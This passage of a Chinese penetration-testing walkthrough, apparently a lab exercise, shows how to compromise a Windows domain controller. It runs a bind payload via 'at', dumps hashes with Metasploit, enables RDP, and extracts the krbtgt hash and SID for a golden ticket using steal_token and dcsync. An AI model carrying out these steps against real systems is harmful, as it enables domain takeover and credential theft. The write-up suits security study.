 生成一个正向的马儿

只要DC能够运行这个马儿，其实我们就算是拿下这个域了。

copy命令将文件拷到dc上面，然后再用at命令来执行。

```
at \\dc 12:27:00 c:/bind.exe
```

![image-20210215122733897](https://i.loli.net/2021/02/15/7nhqlB1VTb4F2og.png)

#### 0x10 域控信息收集

```
run post/windows/gather/smart_hashdump
可以获取
```

run post/windows/manage/enable_rdp 

开启3389

#### 0x11 制作黄金票据

```
域控hash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2cbe963d0d877c8cc7d09c936f1c3b33:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

需要获得krbtgt账户和ntlm

```
  Administrator:500:aad3b435b51404eeaad3b435b51404ee:2cbe963d0d877c8cc7d09c936f1c3b33   krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6f60ace6accbcb76078ccc0312174e98
[+]     web:1103:aad3b435b51404eeaad3b435b51404ee:086a0bb1ed4ec72250760ea531bf8074
[+]     DC$:1000:aad3b435b51404eeaad3b435b51404ee:b1e11b0d51cce63087f418158deb8099
[+]     WEB$:1104:aad3b435b51404eeaad3b435b51404ee:6fccb805ff2d6029d398f768abedf24b
```

```
获取sid
wmic useraccount where name="krbtgt" get sid
S-1-5-21-2005268815-658469957-1189185684-502  
dcsync_ntlm 
sid：S-1-5-21-2005268815-658469957-1189185684-502 
```

偷取域控的token

```
steal_token 1904
需要一个域控的管理员权限
```

```

meterpreter > dcsync_ntlm krbtgt
[+] Account   : krbtgt
[+] NTLM Hash : 6f60ace6accbcb76078ccc0312174e98
[+] LM Hash   : 36588bd35fd1fe85ec5fd73a1ca6805b
[+] SID       : S-1-5-21-2005268815-658469957-1189185684-502
[+] RID       : 502
```
